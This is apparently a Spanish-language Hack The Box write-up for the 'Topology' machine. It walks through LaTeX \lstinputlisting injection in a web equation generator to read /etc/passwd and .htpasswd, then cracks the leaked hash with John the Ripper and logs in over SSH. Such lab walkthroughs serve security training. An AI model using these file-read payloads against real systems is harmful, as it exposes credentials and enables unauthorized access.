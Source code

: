 <p align="center">
<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=435&lines=Topology" alt="Typing SVG" /></a>
</p>

**Online:** https://app.hackthebox.com/machines/546

**Paso 1:**

Primero vamos a editar el fichero etc/hosts y agregar el sgiuiente dominio:

```
10.10.11.217    latex.topology.htb
```

<p align="center">
<img src="./Img/dominio.png">
</p>

**Paso 2:**

Ahora vamos a acceder en **LaTeX Equation Generator** y nos pedira que ingresemos un código de látex y vamos a ingresar en orden los siguientes codigos:

<p align="center">
<img src="./Img/latex.png">
</p>

```latex
$\lstinputlisting{/etc/passwd}$

$\lstinputlisting{/var/www/dev/.htaccess}$

$\lstinputlisting{/var/www/dev/.htpasswd}$
```

nos dara un hash, creamos un archivo sin extencion y guardamos el hash **vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0**

<p align="center">
<img src="./Img/hash.png">
</p>

```
nano hash
```

**Paso 3:**

Ahora usaremos John the Ripper para decifrar el hash

```
sudo john hash --show
```

nos dara como usuario y contraseña **vdaisley:calculus20**

**Paso 4:**

Ahora vamosa conectarnos mediante ssh ingresando la contraseña que obtuvimos:

```
sudo ssh vdaisley@10.10.11.217
```

por ultimo leemos el archivo **user.txt** y nos dara como resultado la bandera.
